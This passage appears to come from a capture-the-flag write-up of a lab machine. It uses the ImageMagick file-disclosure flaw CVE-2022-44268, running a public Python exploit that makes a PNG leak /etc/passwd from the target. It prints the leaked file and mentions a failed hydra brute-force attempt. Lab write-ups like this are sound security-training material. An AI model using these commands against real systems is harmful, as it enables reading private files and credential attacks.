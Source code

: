 ```
$ ./magick --version                            
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

### CVE-2022-44268

> ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary. file (if the magick binary has permissions to read it).

Thanks to this CVE I can read the files on the site by exploiting the vulnerability present in this version of ImageMagick. To do this I found an exploit written in Python on [github](https://github.com/kljunowsky/CVE-2022-44268/tree/7e17dc0473af52c9507b1995638ee60115941058) that is very simple to use.

```
$ python CVE-2022-44268.py --image owl.png --file-to-read /etc/passwd --output evil_owl.png
```
I modified a pre-existing image in such a way as to have the `/etc/passwd` file returned by the server. I uploaded it to the site using the form on the `dashboard.php` page and got the following link

* `http://pilgrimage.htb/shrunk/650adc2f4407b.png`

So I ran the second command, as described on the github repo and I obtained the `/etc/passwd` file present on the target machine.

```
$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/650adc2f4407b.png            
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
Well... now I know that there is a user named `emily` on the machine. I tried a bruteforce attack using `hydra` but it doesn't work...
